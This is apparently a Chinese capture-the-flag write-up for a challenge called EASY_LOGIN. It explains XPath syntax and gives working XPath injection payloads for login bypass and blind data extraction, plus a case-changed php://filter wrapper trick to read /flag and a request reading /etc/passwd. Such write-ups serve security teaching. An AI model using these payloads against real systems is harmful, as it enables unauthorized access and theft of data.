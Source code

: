 # 题目说明

题目名称：EASY_LOGIN

无需任何扫描

## CSRF TOKEN

登录时，一个session只能维持15s，而且由于csrf-token的存在请求不能直接重放；因此可以写个脚本，第一次GET请求时携带着随机的SESSID，获取到token，第二次使用这个SESSID和token去POST提交；

## XPath盲注

XPath是XML的路径语言，使用路径表达式来选取XML文档中的节点或者节点集

### 基础语法

1.表达式

| 表达式   | 描述                                                     |      |
| -------- | -------------------------------------------------------- | ---- |
| nodename | 选取此节点的所有子节点                                   |      |
| /        | 从根节点选取                                             |      |
| //       | 从匹配选择的当前节点选择文档中的节点，而不考虑它们的位置 |      |
| .        | 选取当前节点                                             |      |
| ..       | 选取当前节点的父节点                                     |      |
| @        | 选取属性或　@*：匹配任何属性节点                         |      |
| *        | 匹配任何元素节点                                         |      |

例如：

| 表达式          | 结果                                                         |
| --------------- | ------------------------------------------------------------ |
| bookstore       | 选取 bookstore 元素的所有子节点                              |
| /bookstore      | 选取根元素 bookstore                                         |
| bookstore/book  | 选取属于 bookstore 的子元素的所有 book 元素                  |
| //book          | 选取所有 book 子元素,而不管它们在文档中的位置                |
| bookstore//book | 选择属于 bookstore 元素的后代的所有 book 元素,而不管它们位于 bookstore 之下的什么位置 |
| //@lang         | 选取名为 lang 的所有属性                                     |

2.限定语：

| 表达式                             | 结果                                                         |
| ---------------------------------- | ------------------------------------------------------------ |
| /bookstore/book[1]                 | 选取属于 bookstore 子元素的第一个 book 元素                  |
| /bookstore/book[last()]            | 选取属于 bookstore 子元素的最后一个 book 元素                |
| //title[@lang]                     | 选取所有拥有名为 lang 的属性的 title 元素                    |
| //title[@lang=’eng’]               | 选取所有 title 元素，且这些元素拥有值为 eng 的 lang 属性     |
| /bookstore/book[price>35.00]/title | 选取 bookstore 元素中的 book 元素的所有 title 元素，且其中的 price 元素的值须大于 35.00 |

3.通配符：

| 通配符 | 描述               |
| ------ | ------------------ |
| *      | 匹配任何元素节点   |
| @*     | 匹配任何属性节点   |
| node() | 匹配任何类型的节点 |

4.运算符：

| 运算符       | 描述                           |
| ------------ | ------------------------------ |
| \|           | 计算两个节点集                 |
| +、-、*、div | 加、减、乘、除                 |
| =            | 等于                           |
| !=           | 不等于                         |
| <、<=、>、>= | 小于、小于等于、大于、大于等于 |
| or           | 或                             |
| and          | 与                             |
| mod          | 求余                           |

5.函数：

| 函数名     | 描述     |
| ---------- | -------- |
| text()     | 元素值   |
| position() | 标签位置 |
| name()     | 标签名称 |

### 注入与绕过

查询语句为：

	$query = "/root/accounts/user[username/text()='".$name."' and password/text()='".$pwd."']";

1.万能密码，这点和SQL很像；在知道用户名的情况：

	?name=admin' or '1'='1&pwd=fake

在不知道用户名的情况，使用两个or绕过：

	?name=fake' or '1'or'1&pwd=fake

2.使用`|`操作符，

	?name=1']|//*|ss['&pwd=fake

其执行的语句为：

	/root/accounts/user[username/text()='1' ]|//*|ss['' and password/text()='1']

即先闭合前面的语句，之后`//*`列出文档所有元素

3.盲注，需要一级一级猜解节点；猜解第一级节点：

	?name=1' or substring(name(/*[position()=1]),1,1)='r' or '1'='1&pwd=fake

猜解第二级节点数量：

	?name=1' or count(/root/*)=2 or '1'='1&fake

猜解第二级节点：

	?name=1' or substring(name(/root/*[position()=1]),1,1)='u' or '1'='1&pwd=fake

猜解id为1的user节点下的username值：

	?name=1' or substring(/root/users/user[id=1]/username,1,1)='a' or '1'='1&pwd=fake

回到这道题目上，当尝试XXE、SQL注入的方式行不通的话，可以尝试使用`1' or 1 or '1`，会发现返回的内容和登录失败的内容不一样，那么可由此推断出这里存在XPath注入；这道题用上述方法即可注出adm1n的密码，将密码md5解密后即可登录

## PHP伪协议读取flag

登录成功跳转到`admin.php?file=welcome`，并且有个提示flag在/flag，输入参数`file=/etc/passwd`返回了其内容，但使用一般的`php://filter`发现其被过滤了，那么尝试后发现过滤了一下关键字：

	php:
	.php
	read
	base

并且返回的内容中不能含有`flag`字符串，fuzz后发现其没有过滤大小写，那么用大写绕过协议，read可省略，编码方式使用rot13：

	pHp://filter/string.rot13/resource=/flag

即可拿到flag

# 其他

附件：exp.py，用于注出用户名和密码
























